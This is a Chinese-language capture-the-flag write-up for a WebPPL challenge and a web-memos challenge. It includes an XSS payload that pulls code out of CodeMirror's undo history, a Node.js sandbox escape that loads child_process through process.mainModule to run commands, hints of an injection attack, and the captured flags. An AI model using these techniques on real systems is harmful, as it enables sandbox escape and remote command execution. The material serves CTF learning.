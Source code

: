 #### P1 Frontend

按照 `xssbot` 的实现在网站上执行 `WebPPL` 程序之后，扫描 Heap Snapshot 可以找到一个形如 `CodeMirror.doc.history.done` 的元素包含了之前执行过的代码（猜测是为了实现编辑器的 undo 功能），然后对着这个数组遍历可以爆破出 flag。

回传只能传 webpage title，但是这个可以直接用 `location.assign()` 来指定。

`attack1.js`:

```javascript
location.assign('file:///' + document.getElementsByClassName('CodeMirror')[0].CodeMirror.doc.history.done[15].changes[0].text)
```

```plain
flag1 = flag{EvAl-Is-EvIL-But-NEvEr-MInD}
```

#### P2 Backend

注意到我们在 WebPPL 环境里没有 require 给我们用，但[其实是可以绕过的](https://ljdd520.github.io/2020/03/14/Node-js%E5%B8%B8%E8%A7%81%E6%BC%8F%E6%B4%9E%E5%AD%A6%E4%B9%A0%E4%B8%8E%E6%80%BB%E7%BB%93/)。

>  如果上下文中没有require(类似于Code-Breaking 2018 Thejs)，则可以使用`global.process.mainModule.constructor._load('child_process').exec('calc')`来执行命令。

之后就是正常的 rce 了。注意这里执行无论如何都会失败，但 `execSync` 会把子进程的 stdout 和 stderr 以数组的形式回传给你，然后就没有然后了。

`attack2.js`:

```javascript
var child_process = global.process.mainModule.constructor._load('child_process')

child_process.execSync('./read_flag2', function (error, stdout, stderr) {
        console.log('Exec success?')
        console.log('error:', error)
        console.log('stdout:', stdout)
        console.log('stderr:', stderr)
        if(error) {
            console.log('Exec error')
            console.error('Error: ', error)
            return
        }
    })
```

写个[脚本](https://pastebin.ubuntu.com/p/f3cpWzhJcf/)把 payload 发过去就能拿到 flag 了。

```plain
flag2 = flag{tRIcKY-To-SpAWn-suBPROcESS-In-nodEJs}
```

### web-memos

登进去搜 blog 可以发现输入一些 escape char （例如 `\`）的时候会报错，猜测后端没认真处理前端传进去的东西。

然后写个[脚本](https://pastebin.ubuntu.com/p/npK4XyMhXt/)伪造个查询请求就可以挖到东西了。

```plain
flag = 'flag{H3lL0-IcS-4gAIn-e4Sy-gUake}'
```
